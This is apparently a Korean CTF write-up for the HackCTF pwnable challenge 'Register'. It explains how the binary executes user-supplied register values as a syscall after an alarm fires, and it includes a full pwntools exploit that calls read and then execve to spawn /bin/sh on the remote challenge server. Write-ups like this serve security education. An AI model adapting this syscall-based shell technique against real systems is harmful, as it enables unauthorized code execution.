 # Register

**Category:** _Pwnable_

**Source:** _Hack_CTF_

**Points:** _350_

**Author:** _galaxy(김경환)_

**Description:** 

> ![img](resource/prob.png)

## Point
syscall rop

## Write-up

![img](resource/register.png)

파일을 실행시켜 보면 레지스터들 값을 받는 행위를 계속 반복합니다.

![img](resource/checksec.png)

checksec으로 보면 64bit이고 canary가 있기 때문에 bof로 ret주소를 수정하는 부분은 아닐거라 봅니다.

디컴파일해서 보면

main은 build를 호출 할뿐입니다. 그리고 alarm(5u)가 되어 있어 5초 후 SIGALRM이 발생합니다.

build에서는 레지스터들 값을 받습니다.

SIGALRM이 발생하면 handler함수로 가는데 이 함수는 exec_syscall_obj라는 함수를 호출합니다.

입력받았던 값들을 실제 레지스터에 매칭시키고 syscall을 호출합니다.

입력값이 변형되서 들어가지도 않기 때문에 단순하게 syscall을 이용해서 rop를 구성하면 되는 문제입니다.

아래는 exploit코드입니다.

```python
from pwn import *

if __debug__:
	script='''handle SIGALRM noignore
	b handler
	c'''
	#p=gdb.debug('./register',gdbscript=script)
	p=process('./register')
else:
	p=remote('ctf.j0n9hyun.xyz','3026')

def func(rax,rdi,rsi,rdx):
	rcx=r8=r9=0
	print(p.recvuntil('RAX: '))
	p.sendline(str(rax))
	print(p.recvuntil('RDI: '))
	p.sendline(str(rdi))
	print(p.recvuntil('RSI: '))
	p.sendline(str(rsi))
	print(p.recvuntil('RDX: '))
	p.sendline(str(rdx))
	print(p.recvuntil('RCX: '))
	p.sendline(str(rcx))
	print(p.recvuntil('R8: '))
	p.sendline(str(r8))
	print(p.recvuntil('R9: '))
	p.sendline(str(r9))	

data=0x601068

#read
func(0,0,data,8)
p.send('/bin/sh\x00')

#execv
func(59,data,0,0)
p.interactive()
p.close()
```

먼저 read를 호출해서 쓰기 가능한 영역에 /bin/sh를 입력합니다.

그후 execv를 호출해서 /bin/sh를 실행시킵니다.



앞전에 이러한 syscall을 하는 문제가 있던걸로 기억한다.

이문제가 먼저 나왔었더라면 그때 그 고생을 안했을텐데.....

## References
https://filippo.io/linux-syscall-table/
 - syscall 64bit table
